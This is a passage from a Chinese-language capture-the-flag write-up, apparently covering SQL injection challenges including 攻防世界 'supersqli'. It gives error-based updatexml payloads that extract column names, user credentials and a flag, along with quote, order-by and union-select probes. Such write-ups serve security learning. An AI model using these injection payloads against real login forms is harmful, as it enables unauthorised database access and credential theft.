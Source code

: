 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732250235550-b582f850-3f2e-4d12-879d-801345c838c1.png)

得到表名为'~H4rDsql~' 构建payload去爆字段名

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema)like(database())),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732250700420-3c81d32b-1882-4e36-878c-c0019ca28ef8.png)

发现字段名有id username password

构建payload去爆字段名的值

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732251461961-d4b7a091-d7da-4f92-99e7-b35e957ad322.png)

发现flag但是只有一半 我们可以利用right函数把右边的那部分给爆出来

新的payload

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,25)))from(H4rDsq1)),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732251797766-87989482-b021-4f0f-8235-99d9f27a52ee.png)

拼接起来得到flag

```sql
flag{c69ed473-7a5f-48be-a6cd-950392dcb940}
```

## 攻防世界 supersqli
尝试1'报错

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732253460219-80fd1157-8208-40df-8eb8-bc811996e431.png)

1' and 1=1 #没报错判断为单引号字符注入

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732253546001-d5becbbd-1d4f-4b50-a761-fdd9164fd407.png)

利用order by爆显位 一直试到3才报错 说明列数是2

尝试联合查询

```sql
-1' union select 1,2#
```

